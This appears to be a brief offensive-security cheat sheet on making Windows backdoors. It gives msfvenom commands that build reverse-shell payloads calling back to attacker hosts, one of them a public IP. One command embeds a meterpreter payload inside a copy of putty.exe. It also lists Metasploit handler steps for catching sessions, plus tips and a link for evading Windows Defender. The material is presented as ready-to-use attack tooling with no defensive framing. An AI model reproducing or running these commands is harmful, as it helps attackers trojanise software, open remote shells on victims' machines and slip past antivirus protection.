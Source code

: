### Windows Backdoors:

#### Payloads: (No chance beacause of windows defender)

$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.110 LPORT=4242 -f exe > reverse.exe<br>
$ msfvenom -p cmd/unix/reverse_python LHOST="10.10.10.110" LPORT=4242 -f raw > shell.py

#### Payloads hidden in exe:<br>

$ msfvenom -p windows/x64/meterpreter/reverse_tcp --platform windows -a x64 LHOST=213.32.70.39 LPORT=7777 -x ../putty.exe -f exe-only -o ~/Samples/Bad/putty64-777.exe<br>

<br>
All the payloads are probably working on Windows XP and 7 though. (If no good antivirus software is installed.)

Working exploit that avoids windows defender:<br>
https://ired.team/offensive-security/defense-evasion/bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon

#### Host:

- MSFCONSOLE<br>
    - use /exploit/multi/handler<br>
	- set payload windows/meterpreter/reverse_tcp<br>
	- set LHOST [IP]<br>
	- set LPORT [Port]<br>
	- set ExitOnSession false<br>
	- exploit -j -z<br>
	- sessions -l<br>
	- sessions -i 2<br>
<br>
Python backdoors are safer, as they are not checked by windows defender. There is always a risk with the firewall though.
